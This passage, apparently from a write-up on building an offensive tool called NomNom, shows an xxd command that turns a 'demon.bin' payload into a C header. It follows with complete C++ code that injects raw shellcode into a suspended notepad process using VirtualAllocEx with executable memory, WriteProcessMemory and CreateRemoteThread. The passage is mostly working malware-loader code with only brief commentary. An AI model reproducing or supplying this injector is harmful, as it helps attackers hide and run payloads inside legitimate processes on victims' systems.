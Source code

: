 ```bash
xxd -i demon.bin > demon.h
```

I have experience with shellcode injection so implementing it in NomNom was pretty simple for me. I won't go into the full details of how it works but here's the code for it. It is important to note that the shellcode is injected in it's raw formated. It is not encrypted or anything which makes it prone to detection.

```cpp
int injectShellCode(const unsigned char* shellcode, size_t shellcodeLen) {
    // start a new notepad process to inject shellcode
    STARTUPINFOA si = {sizeof(si)};
    PROCESS_INFORMATION pi;
    if (!CreateProcessA("C:\\Windows\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
        cerr << "[-] CreateProcess failed: " << GetLastError() << "\n";
        return EXIT_FAILURE;
    }
    cout << "[+] Created a new notedpad process to inject shellcode into" << endl;

    LPVOID rMem = VirtualAllocEx(pi.hProcess, NULL, shellcodeLen, (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
    if (!rMem) {
        cerr << "[-] VirtualAllocEx failed: " << GetLastError() << "\n";
        TerminateProcess(pi.hProcess, 1);
        return EXIT_FAILURE;
    }

    if (!WriteProcessMemory(pi.hProcess, rMem, shellcode, shellcodeLen, NULL)) {
        cerr << "[-] WriteProcessMemory failed: " << GetLastError() << "\n";
        VirtualFreeEx(pi.hProcess, rMem, 0, MEM_RELEASE);
        TerminateProcess(pi.hProcess, 1);
        return EXIT_FAILURE;
    }
    cout << "Wrote shell code to allocated buffer" << endl;

    HANDLE hThread = CreateRemoteThread(pi.hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rMem, NULL, 0, NULL);
    if (!hThread) {
        cerr << "[-] CreateRemoteThread failed: " << GetLastError() << "\n";
        VirtualFreeEx(pi.hProcess, rMem, 0, MEM_RELEASE);
        TerminateProcess(pi.hProcess, 1);
        return EXIT_FAILURE;
    }

    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return EXIT_SUCCESS;
}
```
